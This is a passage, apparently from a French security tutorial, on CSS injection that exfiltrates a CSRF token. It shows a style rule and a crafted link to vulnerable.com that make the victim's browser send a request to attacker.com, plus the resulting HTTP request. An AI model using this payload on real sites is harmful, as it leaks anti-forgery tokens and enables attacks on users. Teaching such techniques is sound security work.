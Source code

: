 Cela est en fait possible en utilisant les combinateurs `~` et `*` à la suite du sélecteur CSS :&#x20;

{% code overflow="wrap" lineNumbers="true" %}
```html
<style>
  input[name=csrf-token][value^=a]~* {
    background-image:url(https://attacker.com/?leak=a);
  }
</style>
```
{% endcode %}

{% hint style="info" %}
Le combinateur `~` ([general sibling combinator](https://developer.mozilla.org/en-US/docs/Learn/CSS/Building\_blocks/Selectors/Combinators#general\_sibling\_combinator)) sélectionne les frères d'un élément, même dans le cas où ils ne sont pas adjacents, mais doivent avoir le même parent. Il est possible également d'utiliser le combinateur `+` ([adjacent sibling combinator](https://developer.mozilla.org/en-US/docs/Learn/CSS/Building\_blocks/Selectors/Combinators#adjacent\_sibling\_combinator)) mais son utilisation est alors plus restreinte.
{% endhint %}

{% hint style="info" %}
Le sélecteur`*` ([universal selector](https://developer.mozilla.org/en-US/docs/Web/CSS/Universal\_selectors)) correspond à un élément de n'importe quel type.
{% endhint %}

Le lien malicieux devenant alors :&#x20;

{% code overflow="wrap" %}
```
https://vulnerable.com/css-injection-element-hidden.php?color=black;}input[name=csrf-token][value^=a]~*{background-image:url(https://attacker.com/?leak=a);}
```
{% endcode %}

Et la requête effectuée par le navigateur de la victime sera :&#x20;

{% code overflow="wrap" %}
```http
GET /?leak=a HTTP/1.1
Host: attacker.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Referer: https://vulnerable.com
Connection: close
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (39) (1).png" alt=""><figcaption></figcaption></figure>
